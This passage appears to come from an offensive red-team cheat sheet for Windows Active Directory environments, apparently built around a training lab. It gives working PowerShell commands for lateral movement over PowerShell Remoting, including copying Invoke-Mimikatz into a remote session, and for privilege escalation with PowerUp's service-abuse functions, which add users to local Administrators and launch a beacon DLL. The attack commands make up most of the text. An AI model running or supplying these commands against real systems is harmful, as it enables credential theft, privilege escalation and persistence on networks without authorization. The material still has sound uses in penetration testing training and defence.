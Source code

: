 
## Command executing with PowerShell Remoting
(requires 'HTTP' SPN (and 'HOST' and/or 'WSMAN'?))
This one is a bit tricky. I found it to work the least of the listed methods, a combination of the above SPNs may or may not work - also PowerShell may require the exact FQDN to be provided.

Create credential as another user (if needed):
```
$SecPassword = ConvertTo-SecureString 'I l0ve going Fishing!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('CORP\pgibbons', $SecPassword)
```
Run a command remotely (can be used one-to-many!):
```
Invoke-Command -Credential $Cred -ComputerName $computer -ScriptBlock {whoami; hostname}
```
Launch a session as another user (prompt for password):
```
Enter-PSSession -Credential $Cred -ComputerName $computer -Credential dcorp\Administrator
```
Create a persistent session (will remember variables etc.), load a script into said session, and enter a remote session prompt:
```
$sess = New-PsSession -Credential $Cred
Invoke-Command -Session $sess -FilePath c:\path\to\file.ps1
Enter-PsSession -Session $sess
```
PRO TIP: You can copy files into a PowerShell remoting session as follows:
```
Copy-Item -Path .\Invoke-Mimikatz.ps1 -ToSession $sess2 -Destination "C:\Users\dbprodadmin\documents\"
```

# Privilege Escalation
## PowerUp
PowerUp
Enumerate all services with Unquoted Path:
```
Get-ServiceUnquoted
```
Enumerate services where the urrent user can make changes to service binary (look for CanRestart?):
```
Get-ModifiableServiceFile -Verbose
```
Enumerate services with weak permissions:
```                                          
Get-ModifiableService
```
Check for vulnerable programs and configs:
```
Invoke-AllChecks
```                                                                    

Exploit vulnerable service permissions (does not require touching disk):
```
Add user to local admins group:
Invoke-ServiceAbuse -Name '[servicename]' -UserName 'dcorp\student124'    

Add user:      
Invoke-ServiceAbuse -Name "AbyssWebServer" -Command "net localgroup Administrators domain\user /add"		
```
Exploit vulnerable service permissions to trigger stable beacon:
```
Write-ServiceBinary -Name 'AbyssWebServer' -Command 'c:\windows\system32\rundll32 c:\Users\Student355\Downloads\go_dll_rtl_x64.dll,Update' -Path 'C:\WebServer\Abyss'
net stop AbyssWebServer
```